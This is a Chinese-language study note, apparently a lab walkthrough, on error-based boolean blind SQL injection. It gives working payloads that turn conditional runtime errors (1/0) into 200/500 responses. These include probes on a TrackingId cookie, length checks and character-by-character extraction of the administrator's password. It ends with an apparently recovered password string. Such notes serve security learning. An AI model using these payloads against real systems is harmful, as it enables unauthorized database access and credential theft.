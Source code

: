 ### 基于报错的布尔注入

有时候查询到 null 会报错，即使查询结果为 ' ' 空字符也不会报错。 

大体思路：构造一个分情况判断的 select 语句，如果条件成立，返回正常页面，否则触发运行时报错。

如下实验：

```
# 如下两个 payload 结果完全一样，长度都是 11327
YQDZwLUeYWw4R5TS' and 1=2 --+
YQDZwLUeYWw4R5TS' and 1=1 --+

# 这种情况下我们不能根据 if 判断语句来进行布尔注入了，但可以尝试基于报错的布尔注入。

# mysql 版本
select case when 1=1 then 1 else 0 end limit 1,1

# oracle 版本
select case when 1=1 then 1 else 0 end as result from dual
```

![image-20250521155314193](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521155314193.png)

### 测试是否存在基于报错的布尔注入

如下语句会报错，显示 500：

```
TrackingId=xyz'||(SELECT '' FROM 不存在的表)||'
```

如下语句不会报错，查询 dual 虚拟表返回 200：

```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

发现如果注入的 sql 语句不合法，返回 500，若注入的语句合法，返回 200。存在基于报错的布尔注入

利用细节：

- 要利用基于报错的布尔注入，需要利用到运行时错误（例如：1/0，查询不存在的表等）
- 而不能使用解析时错误（例如：不合理的语法），否则的话一直返回 500

```
# 如下语句，1=1 成立，拼接 1，返回200。
YQDZwLUeYWw4R5TS'||(select case when 1=1 then 1 else 1/0 end as result from dual)  --+

# 如下语句，1=2 不成立，拼接了 1/0，导致运行时错误，返回 500。
YQDZwLUeYWw4R5TS'||(select case when 1=2 then 1 else 1/0 end as result from dual)  --+

# 基于返回的页面不同（500 或 200）进行基于报错的布尔盲注。
YQDZwLUeYWw4R5TS'|| (select case when length(password)=20 then 1 else 1/0 end as result from users where username='administrator') --+
```

![image-20250521162754586](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521162754586.png)

```
# 爆破密码：
YQDZwLUeYWw4R5TS'|| (select case when substr(password,1,1)='s' then 1 else 1/0 end as result from users where username='administrator') --+

# 返回 200 的数据包不存在运行时错误，说明判断语句为 true
```

![image-20250521163025186](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521163025186.png)

![image-20250521163100933](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521163100933.png)

```
wgqzrdd51xfg59bgojlh
```

